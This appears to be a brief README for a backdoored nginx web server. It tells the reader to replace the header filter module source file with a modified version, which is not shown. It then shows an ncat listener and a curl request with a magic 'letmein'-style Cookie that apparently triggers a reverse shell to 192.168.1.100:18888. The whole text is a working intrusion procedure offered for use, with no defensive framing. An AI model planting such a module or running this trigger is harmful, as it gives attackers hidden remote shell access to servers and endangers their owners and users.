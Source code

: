 * download nginx(eg nginx-1.26.1)
* instead of src/http/ngx_http_header_filter_module.c file
* install nginx and start it
* ncat -lkvp 192.168.1.100 18888
* curl -H "Cookie: 1etmein192.168.1.100:18888" http://localhost

